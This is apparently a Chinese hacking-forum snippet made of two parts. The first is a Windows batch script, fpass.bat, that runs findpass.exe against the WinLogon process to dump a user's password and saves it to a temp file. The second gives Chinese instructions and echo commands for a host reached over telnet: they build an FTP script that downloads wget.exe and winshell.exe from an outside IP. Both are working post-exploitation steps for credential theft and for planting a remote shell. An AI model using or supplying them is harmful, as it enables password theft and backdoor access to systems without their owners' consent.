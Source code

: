 ___________________________fpass.bat____________________________________________

@rem ver 1.0

@if NOT exist %windir%/system32/findpass.exe echo "ERROR: dont find findpass.exe"

@if NOT exist %windir%/system32/pulist.exe echo "ERROR: dont find pulist.exe"

@echo start....

@echo ____________________________________

@if "%1"=="" goto USAGE

@findpass.exe %1 %2 %3 >> %temp%/_findpass.txt

@echo "prog exit code [%errorlevel%] findpass.exe"

@type %temp%/_findpass.txt

@echo ________________________________Here__pass★★★★★★★★

@ipconfig /all >>%temp%/_findpass.txt

@goto END

:USAGE

@pulist.exe >%temp%/_pass.txt

@findstr.exe /i "WINLOGON explorer internat" %temp%/_pass.txt

@echo "Example: fpass.bat %1 %2 %3 %4 !!!"

@echo "Usage: findpass.exe DomainName UserName PID-of-WinLogon"

:END

@echo " fpass.bat %COMPUTERNAME% %USERNAME% administrator "

@echo " fpass.bat end [%errorlevel%] !"

_________________fpass.bat___END___________________________________________________________

还有一个就是已经通过telnet登陆了一个远程主机.怎样上传文件(win)

依次在窗口输入下面的东西. 当然了也可以全部拷贝.Ctrl+V过去. 然后就等待吧!!

echo open 210.64.x.4 3396>w

echo read>>w

echo read>>w

echo cd winnt>>w

echo binary>>w

echo pwd >>w

echo get wget.exe >>w

echo get winshell.exe >>w

echo get any.exe >>w

echo quit >>w

ftp -s:w
